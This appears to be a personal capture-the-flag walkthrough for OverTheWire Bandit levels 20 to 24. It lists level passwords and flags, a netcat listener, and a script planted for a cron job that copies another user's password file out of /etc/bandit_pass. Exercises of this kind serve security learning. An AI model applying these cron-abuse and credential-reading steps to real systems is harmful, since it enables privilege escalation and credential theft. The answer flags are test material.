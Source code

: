 	command:
	In bandit20 terminal 1: 
		nc -l localhost 1212
		
	In bandit20 terminal 2:
		./suconnect 1212
		
	In bandit20 terminal 1: 
		Password_of_bandit20
		-- password_of_bandit21 will reveal
		
## level 21 --> level 22
	pass EeoULMCra2q0dSkYj561DX7s1CpBuOBt
	user bandit21
	flag tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q  

	command:  
	cd /etc/cron.d/
	cat cronjob_bandit22
	cat /usr/bin/cronjob_bandit22.sh
	cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

## level 22 --> level 23
	pass tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
	user user bandit22
	flag 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga  

	command:
	cd /etc/cron.d/
	cat cronjob_bandit23
	cat /usr/bin/cronjob_bandit23.sh
	myname=bandit23
	echo I am user $myname | md5sum | cut -d ' ' -f 1
	
## level 23 --> level 24
	pass 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
	user bandit23
	flag gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8  

	command:
	cd /etc/cron.d
	cat cronjob_bandit24
	cat /usr/bin/cronjob_bandit24.sh
	cd /tmp/ban11
	touch test.sh
	chmod 777 test.sh
	vim test.sh

		#!/bin/bash
		cat /etc/bandit_pass/bandit24 > /tmp/ban11/pass
		done
		